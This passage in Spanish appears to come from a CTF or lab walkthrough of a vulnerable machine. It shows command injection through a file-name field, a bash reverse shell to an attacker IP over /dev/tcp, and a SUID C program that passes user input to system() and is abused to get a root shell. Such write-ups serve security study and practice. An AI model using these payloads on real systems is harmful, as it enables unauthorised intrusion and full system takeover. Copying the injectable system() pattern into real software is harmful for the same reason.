 - Aquí vemos un sistema de ficheros al parecer cateado, en el que nos pide escoger un fichero para posteriormente ser analizado; sospechamos que en el campo donde se debe poner el nombre del fichero hay comandos por detrás para que opere el escaneo, así que intentamos hacer inyección de comandos:

```
test; whoami
```

- Vemos que si es vulnerable y aprovechamos para entablar una reverse shell básica:

```
test; bash -c "bash -i >& /dev/tcp/192.168.0.108/443 0>&1"
```

- Accedemos como el usuario "scanner".


# ESCALANDO PRIVILEGIOS:

- Dentro del directorio "/home/scanner" encontramos un archivo con permisos SUID con "root" como propietario, analizamos el presunto backup denominado "update_cloudac.c" y analizamos el código escrito en lenguaje C:

```C
#include <stdio.h>

int main(int argc, char *argv[])
{
char *freshclam="/usr/bin/freshclam";

if (argc < 2){
printf("This tool lets you update antivirus rules\nPlease supply command line arguments for freshclam\n");
return 1;
}

char *command = malloc(strlen(freshclam) + strlen(argv[1]) + 2);
sprintf(command, "%s %s", freshclam, argv[1]);
setgid(0);
setuid(0);
system(command);
return 0;

}
```

- Vemos que en el código el programa requiere de un argumento el cual lo ejecutará como "root" con el comando "system", lo cual hace un llamado al sistema, aprovechamos esto para inyectar comandos, ejecutando el programa mandándole un argumento concatenado con un llamado a la bash, la cual se desplegará como root:

```bash
./update_cloudav "test;bash"
```
